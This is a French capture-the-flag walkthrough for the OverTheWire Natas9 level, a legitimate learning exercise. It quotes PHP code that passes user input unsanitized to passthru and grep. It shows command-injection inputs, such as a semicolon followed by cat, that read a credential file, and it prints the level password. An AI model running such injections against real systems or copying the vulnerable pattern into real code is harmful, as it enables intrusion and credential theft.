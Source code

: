 ## Over-The-Wire -writeup-
### Natas9 (http://natas9.natas.labs.overthewire.org/)

---
#### Etape 1

On a un box de recherche qui, d'après le sourcecode mis à disposition, cherche chaque mot contenant l'input de l'utilisateur dans un dictionnaire.txt

Voici la fonction php:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

**On sait aussi que les mots de passes sont stockés dans /etc/natas_webpass/**, et la ligne de recherche dans le dictionnaire est vulnérable: `passthru("grep -i $key dictionary.txt");`

Il suffit de remplacer la variable $key par ";" pour terminer la ligne, et à la suite une commande qui nous permettrais de voir le contenu de *webpass*:

---
#### Etape 2

Tapons `; ls -la /etc/natas_webpass/natas10"` dans le box de recherche, et on obtient:
> -r--r----- 1 natas10 natas9     33 Dec 20  2016 /etc/natas_webpass/natas10  
> -rw-r----- 1 natas9  natas9 460878 Dec 15  2016 dictionary.txt

Et si on rentre `; type /etc/natas_webpass/natas10"`, on trouve que le fichier natas10 est un ASCII text.  

---
#### Etape 3


Il suffit de rentrer `; cat /etc/natas_webpass/natas10"` pour voir à quoi ressemble le fichier, et après avoir fait ça la page renvoie: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu.

---
Mot de passe: **nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**
